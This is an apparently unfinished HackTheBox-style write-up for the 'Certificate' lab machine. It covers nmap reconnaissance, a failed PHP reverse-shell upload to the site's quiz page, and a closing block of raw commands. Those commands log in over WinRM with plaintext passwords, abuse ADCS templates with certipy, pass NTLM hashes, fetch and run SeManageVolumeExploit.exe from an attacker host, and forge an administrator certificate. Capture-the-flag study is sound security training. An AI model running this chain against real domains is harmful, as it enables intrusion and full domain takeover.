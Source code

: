![](https://github.com/user-attachments/assets/a5aeea9b-11fe-45a0-a90d-7253e0d90575)

## 1. Recon

### 1.1. Port Scan `nmap`

Quick initial scan to find open ports:

```console
root@kali:~# nmap -sS -p- --min-rate 100000 -Pn 10.10.11.71
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 20:17 +08
Nmap scan report for 10.10.11.71
Host is up (0.0092s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
9389/tcp  open  adws
49691/tcp open  unknown
49692/tcp open  unknown
49693/tcp open  unknown
49709/tcp open  unknown
49715/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 2.85 seconds
```

Script and version scan on open ports:

```console
root@kali:~# nmap -Pn -p 53,80,88,135,139,389,445,464,593,636,3268,3269,9389,49691,49692,49693,49709,49715 -sCV 10.10.11.71
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 20:18 +08
Nmap scan report for 10.10.11.71
Host is up (0.0050s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
|_http-title: Did not follow redirect to http://certificate.htb/
|_http-server-header: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.0.30
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-29 19:53:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-29T19:55:12+00:00; +7h34m52s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-08-29T19:55:12+00:00; +7h34m52s from scanner time.
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
|_ssl-date: 2025-08-29T19:55:12+00:00; +7h34m52s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certificate.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certificate.htb
| Not valid before: 2024-11-04T03:14:54
|_Not valid after:  2025-11-04T03:14:54
|_ssl-date: 2025-08-29T19:55:12+00:00; +7h34m52s from scanner time.
9389/tcp  open  mc-nmf        .NET Message Framing
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49709/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC
Service Info: Hosts: certificate.htb, DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2025-08-29T19:54:33
|_  start_date: N/A
|_clock-skew: mean: 7h34m51s, deviation: 0s, median: 7h34m51s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.35 seconds
```

## 2. Exploring the web site at `80`

The web site has user account function:

![](https://github.com/user-attachments/assets/251838ab-a158-4190-9cd8-5bd62e873fcf)

Registering as teacher requires verification, so let's register for a student account:

![](https://github.com/user-attachments/assets/9b2735f1-883b-4490-8514-1e518aee5303)

Logging in with the newly registered account grants access to the courses:

![](https://github.com/user-attachments/assets/d55c64b3-f363-4419-acbc-e87073b5bbe8)

Enroll on a course:

![](https://github.com/user-attachments/assets/8f060852-9d02-4da9-99e0-b0c12c82bcef)

Course outline appears after enrolling, the session links are dummy `#` links, but the quiz submission pages have upload function:

![](https://github.com/user-attachments/assets/de655866-dbed-4b80-a1f2-c9210e4bf00b)

![](https://github.com/user-attachments/assets/f053269e-b03b-444d-b4d9-4b5327c032aa)

The site doesn't accept upload of files types other than those stated:

![](https://github.com/user-attachments/assets/bfd00c9e-5ce0-4297-8de8-38116ad72645)

Attempting to upload php reverse shell that has the extension changed to `.pdf` doesn't work either:

![](https://github.com/user-attachments/assets/7fdf53e1-2b73-4a78-9162-f28df56552ac)

## to be updated

```sh
evil-winrm -i 10.10.11.71 -u Sara.B -p Blink182

evil-winrm -i 10.10.11.71 -u Lion.SK -p '!QAZ2wsx'

certipy-ad req -u Lion.SK@certificate.htb -p '!QAZ2wsx' -dc-ip 10.10.11.71 -target dc01.certificate.htb -ca Certificate-LTD-CA -template Delegated-CRA
certipy-ad req -u Lion.SK@certificate.htb -p '!QAZ2wsx' -dc-ip 10.10.11.71 -target dc01.certificate.htb -ca Certificate-LTD-CA -template SignedUser -pfx lion.sk.pfx -on-behalf-of 'CERTIFICATE\Ryan.k'
apt update && apt -y install ntpsec-ntpdate
ntpdate -q dc01.certificate.htb
timedatectl set-ntp 0
ntpdate dc01.certificate.htb
certipy-ad auth -pfx ryan.k.pfx -dc-ip 10.10.11.71
[*] Got hash for 'ryan.k@certificate.htb': aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6
evil-winrm -i 10.10.11.71 -u Ryan.k -H b1bc3d70e70f4f36b1509a65ae1a2ae6

curl 10.10.14.6/SeManageVolumeExploit.exe -O SeManageVolumeExploit.exe
.\SeManageVolumeExploit.exe
certutil -exportPFX my "Certificate-LTD-CA" ca.pfx
download ca.pfx
certipy-ad forge -ca-pfx ca.pfx -upn administrator@certificate.htb -out admin.pfx
certipy-ad auth -pfx admin.pfx -dc-ip 10.10.11.71
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6
evil-winrm -i 10.10.11.71 -u administrator -H d804304519bf0143c14cbf1c024408c6
```
